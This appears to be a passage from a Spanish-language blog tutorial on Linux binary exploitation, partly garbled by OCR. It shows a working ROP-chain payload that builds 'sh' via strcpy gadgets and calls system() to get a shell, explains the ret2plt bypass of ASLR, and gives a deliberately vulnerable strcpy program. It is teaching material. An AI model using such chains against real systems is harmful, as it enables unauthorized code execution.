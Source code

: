 > "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x1dxa0x04x08" . # .data+5  
> "x62x81x04x08" . # "s"  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x1exa0x04x08" . # .data+6  
> "x6cx86x04x08" . # "h"  
> "x80x1fxe0xf7" . # system  
> "x10x4fxdfxf7" . # exit  
> "x18xa0x04x08"'` . # .data  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp��� �T�p��� �W�p��� �]�p��� �T�p��� �b�p��� �l�� �� O�� �  
sh-4.4$``  
**\*pum\*** Satisface cuando un exploit funciona a la primera primera…  
Nótese que, mientras el ejecutable sea **no PIE, y en caso de obtener las direcciones de system() y exit() de otra manera, como la plt**, no importa si las librerías tienen ASLR activado; tampoco nos afecta el ASLR en el stack.

Sin embargo, la vida es hermosa y no siempre es posible hacer las cosas de este modo: en el caso del reto que puse ayer, al final del post, resulta que estaba… difícil la cosa para ejecutar el setuid(0), ya que al estar explotando un strcpy() no podemos emplear bytes nulos [\[1\]](https://www.blogger.com/blogger.g?blogID=5766640353100096186&pli=1#asdfgh) (solución para el reto abajo). Otro posible problema sería que las librerías (o el binario en caso de ser PIE) se carguen en posiciones de memoria que comiencen por 0x00 (protección _ASCII Armored Address Space_, AAAS). En el caso de que el binario no esté afectado por ASLR (por ser no-pie) o AAAS y las librerías sí, ret2plt es una opción: saltar a la entrada de dicha función en la sección .plt del binario. La sección .plt (_Procedure Linkage Table_) es una especie de índice para los programas enlazados dinámicamente, de forma que al cargarse el programa en memoria, el enlazador (ld en sistemas Linux) situará en cada entrada de la plt la dirección correspondiente a dicha función (solo en el caso de las funciones de librería).  
Ejemplo  

    $ cat a.c
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

void asd() /\* Necesitamos usar una función para que gcc la  
«pida» al linker y por tanto se encuentre en  
la plt, y precisamente queremos tener estas  
funciones en la plt: system() y exit() \*/  
{  
system(NULL);  
exit(0);  
}

void imprimir(char\* arg)  
{  
char buf\[128\];  
strcpy(buf, arg);  
printf(«%sn», buf);  
}
